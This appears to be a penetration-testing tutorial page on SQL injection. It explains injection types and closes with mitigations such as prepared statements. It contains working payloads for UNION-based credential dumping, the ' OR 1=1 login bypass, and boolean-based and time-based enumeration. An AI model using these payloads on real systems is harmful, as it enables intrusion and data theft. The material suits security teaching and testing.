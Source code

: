 # SQL Injection

SQL Injection (SQLi) is a type of attack on web applications. It happens when an application uses unvalidated user input to interact with a database. This can allow attackers to access, modify, or delete sensitive data. They might also bypass authentication to access private areas. SQLi is an old but highly damaging vulnerability.

## SQLi Types

### In-Band SQLi

In-Band SQL Injection is easy to find and exploit. It uses the same communication method to attack and get results. For example, you can discover an SQL Injection flaw on a website and extract database data to the same page.

<details>

<summary>Error-Based SQL Injection</summary>

SQL Injection exploits can reveal database details by displaying error messages directly in the browser, useful for mapping the database.

</details>

<details>

<summary>Union-Based SQL Injection</summary>

This SQL Injection technique uses the UNION operator with a SELECT statement to show more data on a web page. It's a common method to extract large amounts of data through an SQL Injection vulnerability.

{% code overflow="wrap" %}
```sql
# get error to enumerate the db
1 UNION SELECT 1

# get current db
0 UNION SELECT 1,2,database()

# get database tables
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'shop'

# get columns name of a table
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

# get data from a table
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
{% endcode %}

</details>

### Blind SQLi

Blind SQL injection differs from In-Band SQL injection because it doesn't show results directly on the screen. In Blind SQLi, we receive little to no feedback because error messages are turned off. However, the injection still functions, and even a tiny bit of feedback can help us gather information from the entire database.

<details>

<summary>Authentication Bypass</summary>

Blind SQL Injection is often used to bypass login forms. Here, the goal isn't to retrieve data from the database but simply to gain access by bypassing authentication.

Get a scenario where we have a Login page with Username and Password. The query should be this:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

Insert the payload bellow into the Password field can allow us to ignore the password check and access without insert the correct password.

```sql
# payload in password field
' OR 1=1;-- '

# query changed into this
select * from users where username='' and password='' OR 1=1;
```

{% hint style="info" %}
Using `1=1` in a query with an **OR** operator always returns true. This tricks the web application into thinking a username/password match is found, allowing access.
{% endhint %}

</details>

<details>

<summary>Boolean Based</summary>

Boolean-based SQL Injection involves using true/false responses from injection attempts to determine success. Although it may seem limited, these responses can help reveal the entire database structure and its contents.

Using the function LIKE we can find out the letters of a Database, Table, Column and Data Row.

For example we have a API endpoint that return True/Falso if a user exists and the parameter is vulnerable to SQLi. Abusing of this parameter we can obtain all information to dump the DB.

{% code overflow="wrap" %}
```sql
# try any chars to find DB name
admin123' UNION SELECT 1,2,3 where database() like 's%';--    '

# try any chars to find tables name
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         '

# try any chars to find columns name        
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';     '

# check for some existing user   
admin123' UNION SELECT 1,2,3 from users where username like 'a%

# check for the correct password of found users
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
{% endcode %}

</details>

<details>

<summary>Time-Based</summary>

Time-based blind SQL injection is similar to boolean-based injection, but there are no visual signs to check if your queries are correct. Instead, you determine success by the time taken for the query to complete. This is often done by using the **`SLEEP(x)`** function with a `UNION` statement. The `SLEEP()` function runs only when a `UNION SELECT` statement is successful.

<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong># try SLEEP function to test SQLi
</strong><strong>mario' UNION SELECT SLEEP(5),2,3;--    
</strong><strong>
</strong><strong># repeat the Boolean-Based SQLi enumeration process to find out db informations 
</strong>admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--         '

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%

admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
</code></pre>

</details>

<details>

<summary>Out-of-Band SQLi</summary>



Out-of-band SQL Injection is not very common because it relies on certain database features or specific logic in a web application that makes external network requests based on SQL query results.

This type of attack uses two communication channels: one to execute the attack and another to receive the results. For example, the attack channel might be a web request, while the data collection channel could involve monitoring HTTP or DNS requests to a server you control.

Here's how it works:

1. An attacker sends a request with a malicious SQL payload to a vulnerable website.
2. The website processes the SQL query, including the attacker's payload, with the database.
3. The payload triggers the server to send an HTTP request back to the attacker containing sensitive data from the database.

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>



## Testing for SQLi

Testers should find app features where users can enter data, which may impact the database. For each feature found, testers must test for vulnerabilities by using harmful strings and values.

### Vulnerable input recon

Using special characters in SQL inputs like `'`, `"`, `#`, `;`, `)`, `*`, and `%` can cause SQL errors, sometimes visible to users. This can show that the inputs aren't properly sanitized, making them vulnerable to SQL injection.

For every payload do not forget to try url encoding or others.

### Manual Test

Try this payloads below for each input in the web app. Tools like Burp can help us to do this.

{% code title="Request" %}
```javascript
/page?id=PAYLOAD
```
{% endcode %}

{% code title="Manual Payloads" %}
```
id=1
id=1'
id=1"
id=[1]
id[]=1
id=1`
id=1\
id=1/**/
id=1/*!111'*/
id=1' or '1'='1
id=1 or 1=1
id=' or ''='
id=' OR 1 -- -
id=1' or 1=1 --
id=1' or 1=1 -- -
id=1' or 1=1 /*
id='='
```
{% endcode %}



### Automatic Tools

{% content-ref url="../../../../../tools/web-tools/sqlmap.md" %}
[sqlmap.md](../../../../../tools/web-tools/sqlmap.md)
{% endcontent-ref %}



## Mitigations

SQL Injection vulnerabilities can seriously impact web applications. However, developers can safeguard their applications by following these practices:

#### 1. Use Prepared Statements

In prepared statements, the SQL query is written first and user inputs are added as parameters later. This approach ensures the SQL code remains unchanged, allowing the database to differentiate between the query and the data. This also makes your code cleaner and easier to read.

#### 2. Validate Input

Input validation protects SQL queries by controlling what is entered. Using an allow list restricts input to acceptable strings. Alternatively, a string replacement method can filter allowed and disallowed characters.

#### 3. Escape User Input

Allowing characters like `'`, `"`, `$`, and `\` can cause SQL queries to break or open them to attacks. Escaping user input involves adding a backslash (`\\`) before these characters, treating them as regular strings rather than special characters.
